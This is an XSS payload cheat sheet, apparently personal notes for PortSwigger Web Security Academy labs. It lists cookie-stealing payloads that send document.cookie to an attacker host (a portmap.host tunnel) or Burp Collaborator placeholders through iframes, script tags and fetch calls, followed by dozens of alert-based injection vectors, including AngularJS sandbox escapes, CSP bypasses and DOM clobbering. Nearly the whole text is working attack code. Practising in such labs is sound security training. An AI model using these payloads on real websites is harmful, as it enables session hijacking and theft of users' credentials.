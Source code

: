 
|||||||||||||||||||||||||||||||||||||||||||||||||||||
Cheat-sheet link : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onafterscriptexecute
||||||||||||||||||||||||FOR EXPLOTING|||||||||||||||||||||||||||||

for cookia stelling
<iframe src="javascript:let i=new Image;i.src='http://pip3lee101-64604.portmap.host:64604/?lee101='+document.cookie; console.log(document.cookie);" >

<iframe src="javascript:console.log(document.cookie); location=`http://pip3lee101-64604.portmap.host:64604/?lee101/${location.host}=`+document.cookie;" >

<iframe src="javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'GET',
mode: 'no-cors',
body:document.cookie
}); console.log(document.cookie);" >

<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

//////////// for cookie stelling HREF
javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});


|||||||||||||||||||||FOR TESTING||||||||||||||||||||||||||||||||
HTML HTML HTML entities test ===>
&#x6c;&#x65;&#x65;&#x31;&#x30;&#x31;
|||||||||||||||||||||||||||||||||||||||||||||

===> OPEN Redirect URL
http://url.com/?lee101=javascript://%250Alert(document.location=document.cookie)

http://url.com/?evil='/><script>alert(1)</script>

for anchor HREF inputs this payload to store <a src="javascript:alert(1)">LIKE website</a> ++++===>
javascript:alert(1)
http://foo?&apos;-alert(1)-&apos;

|||||||||||||||||||||||||||||||||||||||||||||

//// for seperate html page
<iframe src="https://0a97007b03b5c853c0631f0600af003c.web-security-academy.net/" onload="this.src+='<img src=x onerror=print()>'"></iframe>


|||||||||||||||||||||FOR TESTING||||||||||||||||||||||||||||||||
<iframe src="javascript:alert('xss');" >
<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
"><svg onload=alert(document.cookie);>
<svg onload=alert(document.cookie);>
"onmouseover="alert('xss')
'-alert(1)-'
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
\'-alert(1)//
${alert(1)}
<><img src=1 onerror=alert(1)>
</script><script>alert(1)</script>
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>


||||||||||||||||||||||||||||||||||||||||||||||||||||||
special url and id payloads =========>
"></select><img%20src=1%20onerror=alert(1)>
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
/?'accesskey='x'onclick='alert(1)
"><svg><animatetransform onbegin=alert(1)>
<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';